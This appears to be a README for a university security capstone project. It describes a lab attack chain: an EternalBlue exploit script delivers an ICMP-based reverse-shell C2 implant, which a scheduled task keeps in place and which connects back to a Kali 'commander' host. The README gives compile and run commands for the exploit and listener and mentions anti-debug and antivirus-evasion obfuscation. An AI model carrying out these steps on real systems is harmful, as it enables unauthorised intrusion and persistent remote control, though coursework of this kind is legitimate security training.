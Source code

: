 # CS564 - Capstone Project

---

## Requirement

-   Linux host (we use Kali)
-   Python 2.7
    -   [Installer (python.org)](https://www.python.org/downloads/release/python-2718/)
    -   [Pip installer](https://bootstrap.pypa.io/pip/2.7/get-pip.py)
    -   `impacket`: Run `python2 -m pip install impacket`
-   Python 3
-   Visual C++ 2008 compiler.
    -   [Installer (archive.org)](https://web.archive.org/web/20210106040224/https://download.microsoft.com/download/7/9/6/796EF2E4-801B-4FC4-AB28-B59FBF6D907B/VCForPython27.msi)

## Generating payload

We prepare a C2 package that communicates through ICMP protocol.

### Remote shell

To compile remote shell,
open Visual C++ 2008 32/64-bit Command Prompt, and type the
following. Remember to change `MY_IP` to the IP of commander.

```
cl.exe icmpsh-s.c /D"MY_IP=\"169.254.16.130\""
```

### Python code

Pack it into EXE

## Infiltrate

Inside folder, `eBlue.py` is the exploit. Run

```
python2 eBlue.py 169.254.16.129
```

After running, the C2 package should now be stored inside the target system.
Additionally, a scheduled task is made to execute C2 in the future.

## Exfil

Due to the protocol limitation, we need to connect using Linux system and
run the following command to disable automatic ICMP reply.

```
sysctl -w net.ipv4.icmp_echo_ignore_all=1 >/dev/null
```

When the schedule task run, in order to connect,
execute on our host:

```
python3 icmpsh_m3.py 169.254.16.130 169.254.16.129
```


## Credits

-   `icmpsh-s.patch.c` and `icmpsh-m3.py` is based on [bdamele:icmpsh](https://github.com/bdamele/icmpsh)
-   `eBlue.py` from [Exploit-DB](https://www.exploit-db.com/exploits/42315)
-   Anti-debug techniques from [Anti-Debug Tricks](https://anti-debug.checkpoint.com/)
-   C obfuscation from [scrt:avcleaner](https://github.com/scrt/avcleaner)
